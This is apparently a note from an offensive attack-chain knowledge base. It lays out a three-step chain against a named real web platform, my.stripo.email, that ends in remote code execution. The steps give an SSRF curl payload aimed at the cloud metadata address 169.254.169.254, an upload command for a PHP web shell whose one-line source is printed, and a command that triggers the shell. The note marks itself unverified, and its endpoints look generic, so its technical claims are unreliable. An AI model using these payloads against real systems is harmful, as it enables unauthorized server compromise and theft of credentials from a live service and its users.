

---
tags:
  - ssrf
  - file-upload
  - rce
  - web-vuln
type: attack_chain
tools: []
tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
verified: false
platforms:
  - Web
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Exploit-SSRF-for-Internal-Access]]'
  - '[[procedures/Exploit-Unrestricted-File-Upload]]'
  - '[[procedures/Achieve-Remote-Code-Execution-via-Chained-Vulns]]'
step_count: 3
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[Remote File Copy]]'
  - '[[Command-Line Interface]]'
updated_at: '2025-12-14T04:08:45.989Z'
description: >-
  A chained exploitation of SSRF and unrestricted file upload vulnerabilities on
  the Stripo Email platform to achieve remote code execution, allowing
  unauthorized internal access and arbitrary code execution on the server.
skill_level: intermediate
impact_level: high
id: 84d2fcb8-985c-4435-8b1d-1ce31d4c2304
validated: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[Remote File Copy]]'
  - '[[Command-Line Interface]]'
---
# SSRF and Unrestricted File Upload Leading to Remote Code Execution on Stripo Email

Multi-stage attack chain demonstrating exploitation of server-side request forgery (SSRF) and unrestricted file upload on https://my.stripo.email/ to gain internal access and execute arbitrary code remotely. The SSRF allows unauthorized requests to internal services, while the file upload enables deployment of malicious payloads, chaining together for critical impact including server compromise.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~15 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Browser or [[commands/curl-ssrf-payload]]
- File upload tool like curl

### Target Environment

- Web platform: https://my.stripo.email/
- Required services/ports: HTTP/HTTPS on port 443
- Network access requirements: Internet access to the target domain

### Initial Access Requirements

- No credentials required (public-facing application)
- Direct network position (external attacker)
- No prior access needed

## Detailed Attack Procedures

### Step 1: Exploit SSRF for Internal Access
procedure: [[procedures/Exploit-SSRF-for-Internal-Access]]

**Objective**: Use SSRF to make unauthorized requests to internal endpoints, such as metadata services, to gather information or pivot to other vulnerabilities.

**Instructions**: Identify an input field or API endpoint that processes user-supplied URLs (e.g., integration with external services like Google Drive). Craft a payload to redirect requests to internal IPs. Test using [[commands/curl-ssrf-payload]]:

```bash
curl -X POST 'https://my.stripo.email/api/integrate' -d 'url=http://169.254.169.254/latest/meta-data/' -H 'Content-Type: application/json'
```

Validate response for internal data leakage.

**Expected Output**: Response containing internal metadata or error indicating successful internal request.

**Success Indicators**:
- Internal service response (e.g., AWS metadata)
- No external redirect, confirming SSRF

### Step 2: Exploit Unrestricted File Upload
procedure: [[procedures/Exploit-Unrestricted-File-Upload]]

**Objective**: Upload a malicious file without restrictions to deploy a web shell or executable payload on the server.

**Instructions**: Locate the file upload functionality (e.g., template or asset upload). Use [[commands/curl-file-upload]] to send a malicious PHP shell:

```bash
curl -X POST 'https://my.stripo.email/upload' -F 'file=@shell.php' -H 'Cookie: session=abc123'
```

Where shell.php contains `<?php system($_GET['cmd']); ?>`. Note the uploaded file path from the response.

**Expected Output**: Success message with file URL or path on the server.

**Success Indicators**:
- File uploaded without validation errors
- Accessible via direct URL (e.g., https://my.stripo.email/uploads/shell.php)

### Step 3: Achieve Remote Code Execution via Chained Vulns
procedure: [[procedures/Achieve-Remote-Code-Execution-via-Chained-Vulns]]

**Objective**: Chain SSRF to access upload endpoints internally if needed, then trigger the uploaded payload for RCE.

**Instructions**: If SSRF is required for internal upload access, combine with Step 1 payload to target upload service. Otherwise, directly access the uploaded shell using [[commands/curl-rce-trigger]]:

```bash
curl 'https://my.stripo.email/uploads/shell.php?cmd=whoami'
```

Execute commands to confirm control, such as listing files or running system commands.

**Expected Output**: Output of the executed command (e.g., server username or directory listing).

**Success Indicators**:
- Arbitrary command execution
- Server process output returned

## Attack Chain Summary

### Key Achievements

1. Unauthorized internal network access via SSRF
2. Deployment of malicious payload through unrestricted uploads
3. Full remote code execution on the target server

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[Remote File Copy]]
- [[Command-Line Interface]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]

---
*Last updated: 2023-10-01T00:00:00Z*
